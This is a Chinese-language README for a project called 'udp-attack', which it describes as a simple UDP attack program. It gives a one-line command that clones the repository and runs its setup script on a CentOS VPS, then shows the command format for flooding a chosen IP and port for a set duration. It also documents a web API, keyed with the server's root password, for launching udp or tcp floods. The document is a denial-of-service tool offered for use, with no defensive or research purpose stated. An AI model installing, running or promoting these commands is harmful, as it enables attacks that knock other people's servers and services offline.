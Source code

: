 # udp-attack 一个简单的udp攻击程序
# 版本：1.1
# 发布时间：2020/02/07
<p>安装所需：</p>
<li>一台能发包的VPS</li>
<li>Centos 7.x系统</li>
<br>
现在开始安装，，，
<br>
<pre>cd /root && yum install -y git wget curl net-tools && git clone https://github.com/Scholar-m/udp-attack.git && cd udp-attack && mv ./* ../ && cd ../ && perl setup.pl</pre>
<blockquote>如果显示perl没有安装，，请自行到网上找教程，，，</blockquote>
安装过程中如果问你要不要安装某些东西，按y同意
<br>
等待安装好后，，就可以开始攻击力，，
命令格式：<pre>perl /root/ssyn.pl 要攻击的IP 端口 每秒发送数据包(bytes) 持续攻击秒数</pre>
当然你也可以用api攻击，php安装方式网上自己找，api地址是<pre>http://你的服务器地址/api.php?key=[yourvpspassword(root)]&host=[host]&port=[port]&time=[time]&method=[method]</pre>
说一下，method有3种模式，分别是udp，tcp，和stop，，
我的tg：<a href="//t.me/Scholar-m">@KLDGodY</a><br>

